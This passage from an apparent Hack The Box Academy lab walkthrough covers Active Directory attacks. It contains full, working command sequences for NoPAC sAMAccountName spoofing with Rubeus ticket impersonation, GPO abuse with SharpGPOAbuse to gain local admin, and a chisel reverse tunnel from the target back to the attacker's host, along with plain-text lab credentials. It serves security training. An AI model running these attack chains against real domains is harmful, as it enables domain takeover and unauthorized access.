xfreerdp /v:STMIP:13389 /u:aneudy /p:'Ilovemusic01' /dynamic-resolution
```

sAMAccountName Spoofing

```powershell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-nwkjigkdkf]─[~]
└──╼ [★]$ xfreerdp /v:10.129.100.204:13389 /u:aneudy /p:'Ilovemusic01' /dynamic-resolution 

[12:40:10:531] [4031:4032] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[12:40:10:531] [4031:4032] [WARN][com.freerdp.crypto] - CN = SRV03.inlanefreight.local
[12:40:10:531] [4031:4032] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[12:40:10:531] [4031:4032] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[12:40:10:531] [4031:4032] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[12:40:10:531] [4031:4032] [ERROR][com.freerdp.crypto] - The hostname used for this connection (10.129.100.204:13389) 
[12:40:10:531] [4031:4032] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[12:40:10:531] [4031:4032] [ERROR][com.freerdp.crypto] - Common Name (CN):
[12:40:10:531] [4031:4032] [ERROR][com.freerdp.crypto] - 	SRV03.inlanefreight.local
[12:40:10:531] [4031:4032] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 10.129.100.204:13389 (RDP-Server):
	Common Name: SRV03.inlanefreight.local
	Subject:     CN = SRV03.inlanefreight.local
	Issuer:      CN = SRV03.inlanefreight.local
	Thumbprint:  1d:9f:81:25:b5:b2:fc:df:bc:2a:91:5b:d8:50:c1:4d:8e:2d:db:44:c9:fa:76:fd:68:d3:8a:04:71:ed:42:04
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
```

Once connected, students will have to open `PowerShell`, navigate to `C:\Tools`, import `PowerView.ps1`, and create variables that will be used to query the number of machines created by the user `aneudy` using the `Get-DomainComputer` cmdlet while querying the `ms-DS-CreatorSID` attribute:

Code: powershell

```powershell
cd C:\Tools
Import-Module .\PowerView.ps1
$computers = Get-DomainComputer -Filter '(ms-DS-CreatorSID=*)' -Properties name,ms-ds-creatorsid
$aneudyComputers = $computers | where { (New-Object System.Security.Principal.SecurityIdentifier($_."ms-ds-creatorsid",0)).Value -eq (ConvertTo-SID aneudy) }
$aneudyComputers.Count
```

sAMAccountName Spoofing

```powershell-session
PS C:\Users\aneudy> cd C:\Tools
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> $computers = Get-DomainComputer -Filter '(ms-DS-CreatorSID=*)' -Properties name,ms-ds-creatorsid
PS C:\Tools> $aneudyComputers = $computers | where { (New-Object System.Security.Principal.SecurityIdentifier($_."ms-ds-creatorsid",0)).Value -eq (ConvertTo-SID aneudy) }
PS C:\Tools> $aneudyComputers.Count
```

Answer: {hidden}

# sAMAccountName Spoofing

## Question 2

### "What's Felipe's SPN?"

Utilizing the previously established RDP session, students will have to use `Get-DomainUser` cmdlet to query the `serviceprincpalname` attribute of the user `felipe`:

Code: powershell

```powershell
(Get-DomainUser -Identity Felipe).serviceprincipalname
```

sAMAccountName Spoofing

```powershell-session
PS C:\Tools> (Get-DomainUser -Identity Felipe).serviceprincipalname
```

Answer: {hidden}

# sAMAccountName Spoofing

## Question 3

### "Abuse NoPAC to compromise the DC and read the flag located at C:\Users\Administrator\Desktop\flag.txt"

Students will reuse the previously established RDP session, open `Command Prompt`, navigate to `C:\Tools`, spawn `PowerShell`, and import `Powermad.ps1` and `PowerView.ps1`:

Code: cmd

```cmd
cd C:\Tools
powershell
Import-Module .\Powermad.ps1
Import-Module .\PowerView.ps1
```

sAMAccountName Spoofing

```cmd-session
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\aneudy>cd C:\Tools

C:\Tools>powershell
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Tools> Import-Module .\Powermad.ps1
PS C:\Tools> Import-Module .\PowerView.ps1
```

Subsequently, students will proceed with the exploitation of the NoPAC vulnerability by creating a new computer:

Code: cmd

```cmd
$password = ConvertTo-SecureString 'Password123' -AsPlainText -Force
New-MachineAccount -MachineAccount "Student" -Password $($password) -Domain inlanefreight.local -DomainController 172.18.88.10 -Verbose
```

sAMAccountName Spoofing

```cmd-session
PS C:\Tools> $password = ConvertTo-SecureString 'Password123' -AsPlainText -Force
PS C:\Tools> New-MachineAccount -MachineAccount "Student" -Password $($password) -Domain inlanefreight.local -DomainController 172.18.88.10 -Verbose

VERBOSE: [+] SAMAccountName = Student$
VERBOSE: [+] Distinguished Name = CN=Student,CN=Computers,DC=inlanefreight,DC=local
[+] Machine account Student added
```

Right after, they will proceed to clear the values in the `serviceprincipalname` of the newly added computer account:

Code: cmd

```cmd
Set-DomainObject -Identity 'Student$' -Clear 'serviceprincipalname' -Domain inlanefreight.local -DomainController 172.18.88.10 -Verbose
```

sAMAccountName Spoofing

```cmd-session
PS C:\Tools> Set-DomainObject -Identity 'Student$' -Clear 'serviceprincipalname' -Domain inlanefreight.local -DomainController 172.18.88.10 -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://172.18.88.10/DC=inlanefreight,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=Student$)(name=Student$)(displayname=Student$))))
VERBOSE: [Set-DomainObject] Clearing 'serviceprincipalname' for object 'Student$'
```

Students will proceed to add the `dc03` value in the `serviceprincipalname` attribute on the `Student` machine account:

Code: cmd

```cmd
Set-MachineAccountAttribute -MachineAccount "Student" -Value "dc03" -Attribute samaccountname -Domain inlanefreight.local -DomainController 172.18.88.10 -Verbose
```

sAMAccountName Spoofing

```cmd-session
PS C:\Tools> Set-MachineAccountAttribute -MachineAccount "Student" -Value "dc03" -Attribute samaccountname -Domain inlanefreight.local -DomainController 172.18.88.10 -Verbose

VERBOSE: [+] Distinguished Name = CN=Student,CN=Computers,DC=inlanefreight,DC=local
[+] Machine account Student attribute samaccountname updated
```

Subsequently, they will proceed to request a ticket-granting ticket for the user `dc03` with the password of the machine account (`Password123`) and take a note of the base64 encoded ticket which will be used later:

Code: cmd

```cmd
.\Rubeus.exe asktgt /user:dc03 /password:"Password123" /domain:inlanefreight.local /dc:172.18.88.10 /nowrap
```

sAMAccountName Spoofing

```cmd-session
PS C:\Tools> .\Rubeus.exe asktgt /user:dc03 /password:"Password123" /domain:inlanefreight.local /dc:172.18.88.10 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 58A478135A93AC3BF058A5EA0E8FDB71
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.local\dc03'
[*] Using domain controller: 172.18.88.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFJD <SNIP> xvY2Fs

  ServiceName              :  krbtgt/inlanefreight.local
  ServiceRealm             :  INLANEFREIGHT.LOCAL
  UserName                 :  dc03 (NT_PRINCIPAL)
  UserRealm                :  INLANEFREIGHT.LOCAL
  StartTime                :  5/21/2024 5:57:07 AM
  EndTime                  :  5/21/2024 3:57:07 PM
  RenewTill                :  5/28/2024 5:57:07 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  gQgfeNsYl5HLa4ajpshruw==
  ASREP (key)              :  58A478135A93AC3BF058A5EA0E8FDB71
```

Students will revert the `sAMAccountName` attribute to the original one:

Code: cmd

```cmd
Set-MachineAccountAttribute -MachineAccount "Student" -Value "Student" -Attribute samaccountname -Domain inlanefreight.local -DomainController 172.18.88.10 -Verbose
```

sAMAccountName Spoofing

```cmd-session
PS C:\Tools> Set-MachineAccountAttribute -MachineAccount "Student" -Value "Student" -Attribute samaccountname -Domain inlanefreight.local -DomainController 172.18.88.10 -Verbose

VERBOSE: [+] Distinguished Name = CN=Student,CN=Computers,DC=inlanefreight,DC=local
[+] Machine account Student attribute samaccountname updated
```

Subsequently, students will proceed to perform `s4u` attack impersonating the `Administrator` and specifying the `cifs/dc03.inlanefreight.local` in the `/altservice` parameter using the previously obtained ticket:

Code: cmd

```cmd
.\Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:"cifs/dc03.inlanefreight.local" /dc:172.18.88.10 /ptt /ticket:doIFJDC <SNIP> xvY2Fs
```

sAMAccountName Spoofing

```cmd-session
PS C:\Tools> .\Rubeus.exe s4u /self /impersonateuser:Administrator /altservice:"cifs/dc03.inlanefreight.local" /dc:172.18.88.10 /ptt /ticket:doIFJDCCB <SNIP> xvY2Fs
vY2Fs

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.0

[*] Action: S4U

[*] Action: S4U

[*] Building S4U2self request for: 'dc03@INLANEFREIGHT.LOCAL'
[*] Using domain controller: 172.18.88.10
[*] Sending S4U2self request to 172.18.88.10:88
[+] S4U2self success!
[*] Substituting alternative service name 'cifs/dc03.inlanefreight.local'
[*] Got a TGS for 'Administrator' to 'cifs@INLANEFREIGHT.LOCAL'
[*] base64(ticket.kirbi):

      doIF3jC
      
      <SNIP>
      
      LmxvY2Fs

[+] Ticket successfully imported!
```

Having imported the ticket into memory, students can proceed to grab the flag at `\\dc03.inlanefreight.local\c$\Users\Administrator\Desktop`:

Code: cmd

```cmd
type \\dc03.inlanefreight.local\c$\Users\Administrator\Desktop\flag.txt
```

sAMAccountName Spoofing

```cmd-session
PS C:\Tools> type \\dc03.inlanefreight.local\c$\Users\Administrator\Desktop\flag.txt
```

Answer: {hidden}

# GPO Attacks

## Question 1

### "What number does the gplink attribute has when a GPO is disabled?"

1 - The GPO is disabled.


Answer: {hidden}

# GPO Attacks

## Question 2

### "After enumerating the GPOs, which one is linked but is disabled?"

After spawning the target, students need to connect using RDP with the credentials `gabriel:Godisgood001`:

Code: shell

```shell
xfreerdp /v:STMIP /u:gabriel /p:'Godisgood001' /dynamic-resolution
```

GPO Attacks

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-ltaalf8iab]─[~]
└──╼ [★]$ xfreerdp /v:10.129.229.164 /u:gabriel /p:'Godisgood001' /dynamic-resolution 

[07:11:19:875] [8460:8461] [INFO][com.freerdp.crypto] - creating directory /home/htb-ac-8414/.config/freerdp
[07:11:19:875] [8460:8461] [INFO][com.freerdp.crypto] - creating directory [/home/htb-ac-8414/.config/freerdp/certs]
[07:11:19:875] [8460:8461] [INFO][com.freerdp.crypto] - created directory [/home/htb-ac-8414/.config/freerdp/server]
[07:11:19:044] [8460:8461] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[07:11:19:044] [8460:8461] [WARN][com.freerdp.crypto] - CN = SRV01.inlanefreight.local
[07:11:19:044] [8460:8461] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[07:11:19:044] [8460:8461] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[07:11:19:044] [8460:8461] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[07:11:19:044] [8460:8461] [ERROR][com.freerdp.crypto] - The hostname used for this connection (10.129.229.164:3389) 
[07:11:19:044] [8460:8461] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[07:11:19:044] [8460:8461] [ERROR][com.freerdp.crypto] - Common Name (CN):
[07:11:19:044] [8460:8461] [ERROR][com.freerdp.crypto] - 	SRV01.inlanefreight.local
[07:11:19:044] [8460:8461] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 10.129.229.164:3389 (RDP-Server):
	Common Name: SRV01.inlanefreight.local
	Subject:     CN = SRV01.inlanefreight.local
	Issuer:      CN = SRV01.inlanefreight.local
	Thumbprint:  c4:57:2d:94:e7:3e:93:c0:fc:ab:38:6e:d8:6c:fa:9d:ab:a6:5d:70:0d:fc:d0:95:04:d6:84:4b:36:3d:a1:24
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
```

Subsequently, students need to open `PowerShell`, navigate to `C:\Tools`, import `PowerView.ps1`, and use `Get-DomainOU` while using the properties `name` and `gplink`:

Code: powershell

```powershell
cd C:\Tools
Import-Module .\PowerView.ps1
Get-DomainOU -Properties name,gplink
```

GPO Attacks

```powershell-session
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\gabriel> cd C:\Tools
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainOU -Properties name,gplink

gplink                                                                                               name
------                                                                                               ----
[LDAP://cn={6AC1786C-016F-11D2-945F-00C04fB984F9},cn=policies,cn=system,DC=inlanefreight,DC=local;0] Domain Controllers
                                                                                                     Workstations
[LDAP://cn={8F3E10E7-E9FC-43C7-A58F-3ECFFBF69756},cn=policies,cn=system,DC=inlanefreight,DC=local;1] Servers
```

Students will proceed with copying the globally unique identifier of `Servers` and utilize it for querying the domain to display the name of the GPO:

Code: powershell

```powershell
Get-GPO -Guid 8F3E10E7-E9FC-43C7-A58F-3ECFFBF69756
```

GPO Attacks

```powershell-session
PS C:\Tools> Get-GPO -Guid 8F3E10E7-E9FC-43C7-A58F-3ECFFBF69756
```

Answer: {hidden}

# GPO Attacks

## Question 3

### "Which user has rights to modify the Site?"

Using the previously established RDP session, students will proceed to import `Get-GPOEnumeration.ps1` and run the `Get-GPOEnumeration` cmdlet:

Code: powershell

```powershell
Import-Module .\Get-GPOEnumeration.ps1
Get-GPOEnumeration
```

GPO Attacks

```powershell-session
PS C:\Tools> Import-Module .\Get-GPOEnumeration.ps1
PS C:\Tools> Get-GPOEnumeration
Enumerating GPOs and their applied scopes...


<SNIP>

PrincipalName         : eldridge
GPOName               : Testing GPO
GPCFileSysPath        : \\inlanefreight.local\SysVol\inlanefreight.local\Policies\{EDBD4751-347A-4468-951F-459B0CADDA47}
AppliedScopes         : Site: Default-First-Site-Name
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
ObjectDN              : CN={EDBD4751-347A-4468-951F-459B0CADDA47},CN=Policies,CN=System,DC=inlanefreight,DC=local
AceType               : AccessAllowed
IsInherited           : False
InheritanceFlags      : ContainerInherit
ObjectAceType         :

<SNIP>
```

Answer: {hidden}

# GPO Attacks

## Question 4

### "Which other user other than eldridge has rights to link GPOs to the Default Site?"

Using the previously established RDP session, students will query the domain using the `Get-DomainSite` cmdlet from the section:

Code: powershell

```powershell
Get-DomainSite -Properties distinguishedname | foreach { Get-DomainObjectAcl -SearchBase $_.distinguishedname -ResolveGUIDs | where { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, @{Name='ResolvedSID';Expression={ConvertFrom-SID $_.SecurityIdentifier}} | Format-List }
```

GPO Attacks

```powershell-session
PS C:\Tools> Get-DomainSite -Properties distinguishedname | foreach { Get-DomainObjectAcl -SearchBase $_.distinguishedname -ResolveGUIDs | where { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, @{Name='ResolvedSID';Expression={ConvertFrom-SID $_.SecurityIdentifier}} | Format-List }
```

Answer: {hidden}

# GPO Attacks

## Question 5

### "Which user has rights to link GPOs to the Servers OU?"

Using the previously established RDP session, students will query the domain using the `Get-DomainOU` cmdlet from the section:

Code: powershell

```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | where { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, @{Name='ResolvedSID';Expression={ConvertFrom-SID $_.SecurityIdentifier}} | Format-List
```

GPO Attacks

```powershell-session
PS C:\Tools> Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | where { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, @{Name='ResolvedSID';Expression={ConvertFrom-SID $_.SecurityIdentifier}} | Format-List

ObjectDN    : OU=Workstations,DC=inlanefreight,DC=local
ResolvedSID : INLANEFREIGHT\luz

ObjectDN    : OU=Servers,DC=inlanefreight,DC=local
ResolvedSID : INLANEFREIGHT\gabriel
```

Answer: {hidden}

# GPO Attacks

## Question 6

### "Abuse gabriel rights over GPOs to compromise WEB01 and read the flag located at C:\Users\Administrator\Documents\flag.txt"

Using the previously established RDP session, students will query the GPOs using the `Get-DomainEnumeration` cmdlet to search for modifiable GPOs by the user `gabriel`, and taking note of the `GPOName` value:

Code: powershell

```powershell
Get-GPOEnumeration -ModifyGPOs
```

GPO Attacks

```powershell-session
PS C:\Tools> Get-GPOEnumeration -ModifyGPOs
Searching for users with rights to Modify GPOs...

<SNIP>

GPOName               : TestGPO
GPOGUID               : {93413C32-8D64-4AD6-B48E-6673CBB8AA24}
PrincipalName         : INLANEFREIGHT\gabriel
ActiveDirectoryRights : CreateChild, DeleteChild, Self, WriteProperty, DeleteTree, Delete, GenericRead, WriteDacl, WriteOwner
```

Subsequently, students will proceed to query the computer `WEB01` in the domain, validating that it is part of the `Servers` organizational unit using the `Get-DomainComputer` cmdlet:

Code: powershell

```powershell
Get-DomainComputer web01 -Properties distinguishedname
```

GPO Attacks

```powershell-session
PS C:\Tools> Get-DomainComputer web01 -Properties distinguishedname

distinguishedname
-----------------
CN=WEB01,OU=Servers,DC=inlanefreight,DC=local
```

Students will proceed to use `SharpGPOAbuse` to take advantage of the permissions over the GPO that the user `gabriel` has by adding him to the local administrators' group:

Code: powershell

```powershell
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount gabriel --GPOName TestGPO
```

GPO Attacks

```powershell-session
PS C:\Tools> .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount gabriel --GPOName TestGPO
[+] Domain = inlanefreight.local
[+] Domain Controller = DC02.inlanefreight.local
[+] Distinguished Name = CN=Policies,CN=System,DC=inlanefreight,DC=local
[+] SID Value of gabriel = S-1-5-21-831407601-1803900599-2479021482-1106
[+] GUID of "TestGPO" is: {93413C32-8D64-4AD6-B48E-6673CBB8AA24}
[+] Creating file \\inlanefreight.local\SysVol\inlanefreight.local\Policies\{93413C32-8D64-4AD6-B48E-6673CBB8AA24}\Machine\Microsoft\Windows NT\SecEdit\GptTmpl.inf
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new local admin. Wait for the GPO refresh cycle.
[+] Done!
```

Right after, they will proceed to link the GPO using the `New-GPLink` cmdlet:

Code: powershell

```powershell
New-GPLink -Name TestGPO -Target "OU=Servers,DC=inlanefreight,DC=local"
```

GPO Attacks

```powershell-session
PS C:\Tools> New-GPLink -Name TestGPO -Target "OU=Servers,DC=inlanefreight,DC=local"


GpoId       : 93413c32-8d64-4ad6-b48e-6673cbb8aa24
DisplayName : TestGPO
Enabled     : True
Enforced    : False
Target      : OU=Servers,DC=inlanefreight,DC=local
Order       : 2
```

Subsequently, students need to `Sign out` of the system and reconnect. they need to open `PowerShell` and grab the flag located at `\\web01\c$\Users\Administrator\Desktop`:

Code: powershell

```powershell
cat \\web01\c$\Users\Administrator\Documents\flag.txt
```

GPO Attacks

```powershell-session
PS C:\Users\gabriel> cat \\web01\c$\Users\Administrator\Documents\flag.txt
```

Answer: {hidden}

# Skills Assessment

## Question 1

### "Abuse taino's rights to compromise SDE01 and read the flag located at C:\Users\Administrator\Desktop\flag.txt"

After spawning the target, students need to download the Windows version of chisel:

Code: shell

```shell
wget -q https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz; gunzip chisel_1.7.7_windows_amd64.gz; mv chisel_1.7.7_windows_amd64 chisel.exe
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-naf2t84yqt]─[~]
└──╼ [★]$ wget -q https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz; gunzip chisel_1.7.7_windows_amd64.gz; mv chisel_1.7.7_windows_amd64 chisel.exe
```

Subsequently, they will start a chisel server on their workstation:

Code: shell

```shell
chisel server --reverse -p 8080
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-naf2t84yqt]─[~]
└──╼ [★]$ chisel server --reverse -p 8080
2024/05/22 08:38:08 server: Reverse tunnelling enabled
2024/05/22 08:38:08 server: Fingerprint o3Yl5YyaKdVlnQa7v/pG+L3+q2s1i1v6gqMb04r/1Ro=
2024/05/22 08:38:08 server: Listening on http://0.0.0.0:8080
```

In a new terminal tab, students will connect to the target via RDP with the credentials `taino:Adrian01`:

Code: shell

```shell
xfreerdp /v:STMIP /u:taino /p:Adrian01 /dynamic-resolution /drive:.,student
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-naf2t84yqt]─[~]
└──╼ [★]$ xfreerdp /v:10.129.229.227 /u:taino /p:Adrian01 /dynamic-resolution /drive:.,student

[08:39:04:993] [4724:4725] [INFO][com.freerdp.crypto] - creating directory /home/htb-ac-8414/.config/freerdp
[08:39:04:993] [4724:4725] [INFO][com.freerdp.crypto] - creating directory [/home/htb-ac-8414/.config/freerdp/certs]
[08:39:04:993] [4724:4725] [INFO][com.freerdp.crypto] - created directory [/home/htb-ac-8414/.config/freerdp/server]
[08:39:04:164] [4724:4725] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[08:39:04:164] [4724:4725] [WARN][com.freerdp.crypto] - CN = SDE01.inlanefreight.local
[08:39:04:165] [4724:4725] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[08:39:04:165] [4724:4725] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[08:39:04:165] [4724:4725] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[08:39:04:165] [4724:4725] [ERROR][com.freerdp.crypto] - The hostname used for this connection (10.129.229.227:3389) 
[08:39:04:165] [4724:4725] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[08:39:04:165] [4724:4725] [ERROR][com.freerdp.crypto] - Common Name (CN):
[08:39:04:165] [4724:4725] [ERROR][com.freerdp.crypto] - 	SDE01.inlanefreight.local
[08:39:04:165] [4724:4725] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 10.129.229.227:3389 (RDP-Server):
	Common Name: SDE01.inlanefreight.local
	Subject:     CN = SDE01.inlanefreight.local
	Issuer:      CN = SDE01.inlanefreight.local
	Thumbprint:  07:99:e2:dd:51:c8:89:9f:a0:3b:8c:43:a4:4b:ac:49:3c:91:ec:ea:3a:1a:29:c8:48:f9:63:36:e2:d4:6e:51
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
```

Subsequently, they will open `PowerShell`, copy the `chisel.exe`, and initiate a dynamic port-forwarding:

Code: powershell

```powershell
net use
copy \\TSCLIENT\student\chisel.exe .
.\chisel.exe client PWNIP:8080 R:socks
```

Skills Assessment

```powershell-session
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\taino> net use
New connections will be remembered.


Status       Local     Remote                    Network

-------------------------------------------------------------------------------
                       \\TSCLIENT\student        Microsoft Terminal Services
The command completed successfully.

PS C:\Users\taino> copy \\TSCLIENT\student\chisel.exe .
PS C:\Users\taino> .\chisel.exe client 10.10.14.134:8080 R:socks
2024/05/22 02:45:54 client: Connecting to ws://10.10.14.134:8080
2024/05/22 02:45:54 client: Connected (Latency 78.755ms)
```

Students will proceed to use their workstations and change `proxychains` configuration:

Code: shell

```shell
sudo sed -i 's/socks4\s\+127.0.0.1\s\+9050/socks5 127.0.0.1 1080/g' /etc/proxychains.conf
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-naf2t84yqt]─[~]
└──╼ [★]$ sudo sed -i 's/socks4\s\+127.0.0.1\s\+9050/socks5 127.0.0.1 1080/g' /etc/proxychains.conf
```

Right after, they will proceed to enumerate the delegation in the domain using `taino`'s credentials with `findDelegation.py`:

Code: shell

```shell
proxychains findDelegation.py -target-domain inlanefreight.local -dc-ip 172.19.99.10 inlanefreight.local/taino:Adrian01
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-naf2t84yqt]─[~]
└──╼ [★]$ proxychains findDelegation.py -target-domain inlanefreight.local -dc-ip 172.19.99.10 inlanefreight.local/taino:Adrian01

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.19.99.10:389  ...  OK
AccountName  AccountType  DelegationType                      DelegationRightsTo                  
-----------  -----------  ----------------------------------  -----------------------------------
TAINOTEST$   Computer     Constrained w/ Protocol Transition  MSSQLSvc/db2000                     
TAINOTEST$   Computer     Constrained w/ Protocol Transition  MSSQLSvc/db2000.inlanefreight.local
```

With the obtained information, they will proceed to clone and install the `dacledit` branch in a virtual environment from the following [fork](https://github.com/ShutdownRepo/impacket) of Impacket:

Code: shell

```shell
git clone https://github.com/ShutdownRepo/impacket -b dacledit; cd impacket; python3 -m venv .dacledit; source .dacledit/bin/activate
python3 -m pip install .
```

Skills Assessment

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-naf2t84yqt]─[~]
└──╼ [★]$ git clone https://github.com/ShutdownRepo/impacket -b dacledit; cd impacket; python3 -m venv .dacledit; source .dacledit/bin/activate

Cloning into 'impacket'...
remote: Enumerating objects: 24174, done.
remote: Total 24174 (delta 0), reused 0 (delta 0), pack-reused 24174
Receiving objects: 100% (24174/24174), 10.16 MiB | 27.38 MiB/s, done.
Resolving deltas: 100% (18342/18342), done.

(.dacledit) ┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-naf2t84yqt]─[~/impacket]
└──╼ [★]$ python3 -m pip install .
Processing /home/htb-ac-8414/impacket
Collecting chardet
  Downloading chardet-5.2.0-py3-none-any.whl (199 kB)
     |████████████████████████████████| 199 kB 46.5 MB/s 

<SNIP>

Running setup.py install for impacket ... done
Successfully installed Jinja2-3.1.4 MarkupSafe-2.1.5 Werkzeug-3.0.3 blinker-1.8.2 cffi-1.16.0 chardet-5.2.0 click-8.1.7 cryptography-42.0.7 dnspython-2.6.1 flask-3.0.3 future-1.0.0 impacket-0.9.25.dev1+20230823.145202.4518279 importlib-metadata-7.1.0 itsdangerous-2.2.0 ldap3-2.9.1 ldapdomaindump-0.9.4 pyOpenSSL-24.1.0 pyasn1-0.6.0 pycparser-2.22 pycryptodomex-3.20.0 six-1.16.0 zipp-3.18.2
```

Right after, students will query the ACL over the `TAINOTEST$` computer account:

Code: shell

```shell
proxychains -q python3 examples/dacledit.py inlanefreight.local/taino:Adrian01 -principal taino -target 'tainotest$'
```

Skills Assessment

```shell-session
(.dacledit) ┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-naf2t84yqt]─[~/impacket]
└──╼ [★]$ proxychains -q python3 examples/dacledit.py inlanefreight.local/taino:Adrian01 -principal taino -target 'tainotest$'

Impacket v0.9.25.dev1+20230823.145202.4518279 - Copyright 2021 SecureAuth Corporation

[*] Parsing DACL
[*] Printing parsed DACL
[*] Filtering results for SID (S-1-5-21-1203991204-2482992733-3322511772-1106)
[*]   ACE[8] info                
[*]     ACE Type                  : ACCESS_ALLOWED_ACE
[*]     ACE flags                 : None
[*]     Access mask               : FullControl (0xf01ff)
[*]     Trustee (SID)             : taino (S-1-5-21-1203991204-2482992733-3322511772-1106)
```

Subsequently, students will repeat the step to enumerate the ACL over the `SDE01$` and `db2000$` computer accounts:

Code: shell

```shell
proxychains -q python3 examples/dacledit.py inlanefreight.local/taino:Adrian01 -principal taino -target 'sde01$'
proxychains -q python3 examples/dacledit.py inlanefreight.local/taino:Adrian01 -principal taino -target 'db2000$'
```

Skills Assessment

```shell-session
(.dacledit) ┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-naf2t84yqt]─[~/impacket]
└──╼ [★]$ proxychains -q python3 examples/dacledit.py inlanefreight.local/taino:Adrian01 -principal taino -target 'sde01$'

